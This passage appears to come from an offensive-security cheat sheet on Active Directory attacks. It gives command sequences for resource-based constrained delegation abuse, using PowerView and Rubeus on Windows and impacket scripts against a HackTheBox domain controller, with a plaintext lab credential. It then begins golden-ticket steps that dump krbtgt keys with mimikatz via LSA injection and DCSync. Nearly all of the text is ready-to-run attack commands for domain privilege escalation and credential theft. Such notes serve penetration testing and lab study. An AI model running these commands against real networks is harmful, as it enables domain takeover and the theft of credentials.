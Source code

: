 ```shell
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

**Execution**
```shell
# Generating RC4,AES Hash 
.\Rubeus.exe hash /password:123456 /user:fake01 /domain:offense.local

# Impersonation
./rubeus.exe s4u /user:fake01$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash>  /impersonateuser:administrator /msdsspn:cifs/DC.offense.local /ptt

./rubeus.exe s4u /user:fake01$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/DC.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

### Attack from Linux 

```bash
# from support machine htb
# we have this user support:Ironside47pleasure40Watchful which is part of a group that that genricall on the DC$

# add computer X (house)
addcomputer.py -computer-name 'house$' -computer-pass 'housepass' -dc-host 10.129.109.105 'support.htb/support:Ironside47pleasure40Watchful'

# change msDS-AllowedToActOnBehalfOfOtherIdentity value on DC$, using support account creds  
rbcd.py -delegate-from 'house$' -delegate-to 'DC$' -dc-ip 10.129.109.105 -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'

# get the kerpros ticket 
getST.py -spn 'cifs/dc.support.htb' -impersonate Administrator -dc-ip 10.129.109.105 'support.htb/house$:housepass'
```

# Ticket abuse
## Golden ticket
- This attack assumes a Domain Controller compromise where KRBTGT account hash will be extracted which is a requirement for a successful Golden Ticket attack.
- A Golden Ticket attack consist on the creation of a legitimate Ticket Granting Ticket (TGT) impersonating any user through the use of the NTLM hash of the Active Directory (AD) `krbtgt` account.

### Attack
```powershell
# get krbtgt keys
## from DC memory (LSA) 
./mimikatz "lsadump::lsa /inject /name:krbtgt"
## using dcsync 
./mimikatz "privilege::debug" "lsadump::dcsync /domain:eagle.local /user:krbtgt"


# Golden Ticket
## powerview
### get domain sid
Get-DomainSID
```